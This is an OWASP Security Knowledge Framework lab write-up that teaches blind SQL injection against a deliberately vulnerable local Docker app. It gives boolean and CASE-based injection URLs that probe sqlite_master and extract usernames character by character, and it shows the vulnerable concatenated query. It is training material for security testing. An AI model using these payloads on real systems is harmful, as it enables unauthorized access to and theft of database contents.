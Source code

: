 # KBID 156 - SQLI \(Blind\)

## Running the app

```text
$ sudo docker pull blabla1337/owasp-skf-lab:sqli-blind
```

```text
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:sqli-blind
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

![Docker image and write-up thanks to ING!](.gitbook/assets/ing_primary_logo.png)

## Reconnaissance

### Step1

The first step is to identify parameters which could be potentially used in an SQL query to communicate with the underlying database. In this example we find that the "/home" method grabs data by pageID and displays the content.

![](.gitbook/assets/sqli-blind-1.png)

```text
http://localhost:5000/home/1
```

### Step2

Now let's see if we can create an error by injecting a single quote

![](.gitbook/assets/sqli-blind-2.png)

```text
http://localhost:5000/home/1'
```

However, it's still not possile we can't see this as the application shows a 404 Error page.

### Step3

Now we need to inject logic operators to check if the application is vulnerable to SQL Injection.

First, we inject a logical operator which is true \(or 1=1\). This should result in the application run as intended without errors.

![](.gitbook/assets/sqli-blind-3.png)

```text
http://localhost:5000/home/1 OR 1=1
```

After that we inject a logical operator which is false \(and 1=2\). This should result in the application returning an error.

![](.gitbook/assets/sqli-blind-4.png)

```text
http://localhost:5000/home/1 AND 1=2--
```

By doing so we are sure the application has a SQL Injection vulnerability.

This is due to the fact that the user supplied input is being directly concatenated into the SQL query.

```python
db.execute('SELECT pageId, title, content FROM pages WHERE pageId='+pageId)
```

## Exploitation

Now that we know that the application is vulnerable for SQL injections we are going to use this vulnerability to read sensitive information from the database. This process could be automated with tools such as SQLMAP. However, for this example let's try to exploit the SQL injection manually.

### Step1

We need to determine which conditions are TRUE and FALSE for the application. By trial and error it's possible to determine the pageIDs 1,2 and 3 are valid, whereas 4 is not.

![](.gitbook/assets/sqli-blind-6.png)

```text
http://localhost:5000/home/1
```

![](.gitbook/assets/sqli-blind-5.png)

```text
http://localhost:5000/home/4
```

#### Step 2

Now, we need to inject a IF condition, returning 1 for the TRUE cases and 4 for the FALSE ones.

![](.gitbook/assets/sqli-blind-7.png)

```text
http://localhost:5000/home/(select case when 1=1 then 1 else 4 end)
```

#### Step 3

Next step is to add more logic to our injection and starting to retrieve information from data tables. Remember we will never view the data we are retrieving from the DB in the page, but we will do it by logicaly testing if the data exists.

Let's check if the table users exists.

![](.gitbook/assets/sqli-blind-9.png)

```text
http://localhost:5000/home/(select case when tbl_name='users' then 1 else 4 end from sqlite_master where type='table')
```

Good news! As we didn't see an error, it means the table _users_ exists.

By testing different table names, we will receive an 404 error, indicating the table does not exist.

![](.gitbook/assets/sqli-blind-8.png)

### Step 4

From the _user_ table is possible to see that the table contains the columns _UserId_ , _UserName_ and _Password_

![](.gitbook/assets/sqli-blind-10.png)

Let's try to extract a valid user. Instead of having a dictionary of possible users to guess, we can check if the first letter of the first user contains the letter _a_.

![](.gitbook/assets/sqli-blind-11.png)

```text
http://localhost:5000/home/(select case when substr(UserName,1,1)='a' then 1 else 4 end from users limit 0,1)
```

The error indicates it's not the case. Let's try with the letter _A_. Remember, case matters.

![](.gitbook/assets/sqli-blind-12.png)

```text
http://localhost:5000/home/(select case when substr(UserName,1,1)='A' then 1 else 4 end from users limit 0,1)
```

Yes, it matches!

As initial guess, _Admin_ could be a possible user. So, let's test this theory:

```text
http://localhost:5000/home/(select case when substr(UserName,2,1)='d' then 1 else 4 end from users limit 0,1)
```

```text
http://localhost:5000/home/(select case when substr(UserName,3,1)='m' then 1 else 4 end from users limit 0,1)
```

```text
http://localhost:5000/home/(select case when substr(UserName,4,1)='i' then 1 else 4 end from users limit 0,1)
```

```text
http://localhost:5000/home/(select case when substr(UserName,5,1)='n' then 1 else 4 end from users limit 0,1)
```

We made it! None of the requests above returned _404 Error_, so this indicates _Admin_ is a valid value.

Now that you know the logic, you can extract all UserNames stored within this table.

Why not dumping the whole database?

Don't forget to play with Limit numbers to fetch more records.

## Additional sources

Please refer to the OWASP testing guide for a full complete description about SQL injection with all the edge cases over different platforms!

[https://www.owasp.org/index.php/Testing\_for\_SQL\_Injection\_\(OTG-INPVAL-005\)](https://www.owasp.org/index.php/Testing_for_SQL_Injection_%28OTG-INPVAL-005%29)

SQLite Reference

[https://www.techonthenet.com/sqlite/sys\_tables/index.php](https://www.techonthenet.com/sqlite/sys_tables/index.php)


